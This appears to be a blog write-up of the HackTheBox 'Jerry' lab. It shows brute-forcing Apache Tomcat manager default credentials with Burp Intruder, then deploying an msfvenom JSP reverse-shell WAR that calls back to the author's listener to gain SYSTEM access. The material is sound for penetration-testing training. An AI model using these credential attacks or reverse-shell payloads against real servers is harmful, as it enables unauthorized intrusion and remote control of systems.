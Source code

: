 ```yaml
---
title: 'HachTheBox - Jerry'
date: '2021-10-07 12:00:00 +0000'
categories: [HTB, easy]
tags: [hackthebox, easy]     # TAG names should always be lowercase
comments: true
mermaid: true
image:
  src: /assets/img/jerry/jerry.png
  width: 1000   # in pixels
  height: 400   # in pixels
  alt: Legacy box logo icon
---
```


Our first step is to run nmap. Only port ```8080``` is open. The alternative to port ```80```. There's some information disclosure as some service information is included.

![nmap-scan-results](/assets/img/jerry/jerry-nmap.png)

We navigate to "http://10.10.10.95:8080/" and find a default web page. I wonder if we can gain access to the web server with default credentials?

![default-apache-page](/assets/img/jerry/apache-default.png)

We search Google for "tomcat default credentials". THe first result is "https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown". We will use this list to bruteforce our way in. There are tools to automate this process but we're going to it manually.

![default-tomcat-credentails](/assets/img/jerry/git-default-creds.png)

Copy all the default creds into a text file. I'm using Mousepad. Use Find and Replace to search for the space ("  "), replace it with a colon, then select replace all and hit save. I saved mine as tomcat.txt

![find-and-replace](/assets/img/jerry/find&replace.png)

Now in your browser, go to Preferences > Settings (bottom of pages). In connection settings select manual proxy. CHange the proxy to ```127.0.0.1``` and Port to ```8080```. Select "Also use this proxy for FTP and HTTPS". And press okay.

![change-browser-proxy-settings](/assets/img/jerry/browser-proxy-settings.png)

Fire up Burp Suite, select "Temporary project" and "Next" > "Use Burp defaults" and select "Start Burp".

![start-burp](/assets/img/jerry/start-burp.png)

We're going to write a bash script that we'll use to bruteforce our way into the web server.
```bash
for cred in $(cat tomcat.txt); do echo -n $cred | base64; done
```
This is going iterate through each line in the .txt file, convert it into base64 and print it out. Copy the base64 list.

![convert-to-base64](/assets/img/jerry/base64.png)

Next we return to the Apache Tomcat page and select "Manager App". Nothing happens because Burp has intercepted the request. So we navigate to Burp suite, look for the Proxy tab and "Forward" the request.

![first-burp-request](/assets/img/jerry/burp-1st-request.png)

We go back to the Apache web page and select "OK" in the pop up, without entering any credentials. Back in burpe, under the proxy tab we right click on the request in the raw text area and select "Send to Intruder".

![burp-intruder](/assets/img/jerry/send-to-intruder.png)

Navigate to the "Intruder" tab, then to "Positions". We highlight our payload paramater area and select the "Add" button. The highlighted area is what we will be replacing with our base64 list.

![set-payload-parameter](/assets/img/jerry/burp-payload-parameter.png)

Now select the payloads tab, and under "Payload Options", paste the base64 list we copied. Make sure to deselect the "URL-encode these characters" option. Select "Start Attack".

![paste-base64](/assets/img/jerry/burp-base-paste.png)

Search for the the result with the "200" status code. Those are the correct credentials. To decode it, select the correct payload and below where it shows the request, highlight the base64 string. Right click and select "Send to Decoder". Go to the decoder and select decode as bas64. The output should be "tomcat:s3cret".

![decode-credentials](/assets/img/jerry/creds-decode.png)

We can now set our browser proxy settings back to system proxy settings.

Now that we have access to the web server, we want to upload a malicious file. The malicious file will be a reverse shell that we're going to generate using ```msfvenom```.

The payload we want can be found here "https://mytrickstuff.com/hacks-and-tricks/msfvenom-cheat-sheet-one-page-one-code/".
```msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war```

![cheatsheet](/assets/img/jerry/cheatsheet.png)

We can paste the snippet into the terminal. Adding your ```tun0``` IP as your LHOST, and assigning LPORT to ```4444```. ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.6 LPORT=4444 -f war > shell.war```. Then we start a listener on the same port for our reverse shell to connect to with ```nc -nvlp 444```.

![generate-file-and-start-listener](/assets/img/jerry/generate&listener.png)

In the Apache mamager scroll down to where you see "War file to deploy". Browse and select the WAR file we just generated and select "Deploy". It should now be deployed under Applications in the manager dashboard.

![upload-war-file](/assets/img/jerry/upload-war.png)

Select "/shell" under applications. This initiates the shell and talks back to our listener.

![trigger-shell](/assets/img/jerry/applications-shell.png)

We return to our terminal and see we have a shell. We run whoami and see we have authority\system. Congrstulations, you have owned this box!

![system-owned](/assets/img/jerry/owned.png)

Now locate the flags to fully own this system. 

![locate-flags](/assets/img/jerry/flags.png)















